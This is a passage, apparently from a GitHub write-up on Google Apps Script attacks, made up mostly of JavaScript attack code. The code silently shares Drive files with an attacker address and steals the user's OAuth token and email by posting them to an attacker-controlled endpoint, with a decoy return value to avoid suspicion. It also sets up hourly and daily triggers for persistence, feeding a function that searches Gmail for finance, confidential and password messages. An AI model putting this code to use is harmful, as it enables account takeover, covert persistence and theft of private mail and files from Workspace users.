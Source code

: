 ```javascript
    try {
      DriveApp.getFileById(data[i].id).addViewer('attacker@example.com');
    } catch (e) {
      // Silently fail if permission can't be added
    }
  }
}

// OAuth Token Exfiltration Example
function stealOAuthToken() {
  // Get active user and OAuth token
  var userEmail = Session.getActiveUser().getEmail();
  var oauthToken = ScriptApp.getOAuthToken();
  
  // Send captured token to attacker-controlled endpoint
  UrlFetchApp.fetch('https://attacker-controlled-endpoint.com/tokens', {
    'method': 'post',
    'contentType': 'application/json',
    'payload': JSON.stringify({
      'email': userEmail,
      'token': oauthToken,
      'timestamp': new Date().toISOString()
    })
  });
  
  // Return something innocuous to avoid suspicion
  return "Processing complete!";
}
```

### 2. Time-Based Triggers for Persistence

Time-based triggers create persistent access that continues to operate even after the user closes the document:

```javascript
// Function that creates a persistent time-based trigger
function establishPersistence() {
  // Delete any existing triggers with the same function name
  // to avoid duplicate triggers
  const triggers = ScriptApp.getProjectTriggers();
  for (let i = 0; i < triggers.length; i++) {
    if (triggers[i].getHandlerFunction() === 'exfiltrateEmails') {
      ScriptApp.deleteTrigger(triggers[i]);
    }
  }
  
  // Create new trigger that runs every hour
  ScriptApp.newTrigger('exfiltrateEmails')
    .timeBased()
    .everyHours(1)
    .create();
    
  // Create another trigger that runs daily to maintain persistence
  ScriptApp.newTrigger('checkAndReestablishTriggers')
    .timeBased()
    .everyDays(1)
    .create();
}

// Function executed by the trigger
function exfiltrateEmails() {
  // Search for sensitive emails
  const threads = GmailApp.search('from:finance OR subject:confidential OR subject:password');
```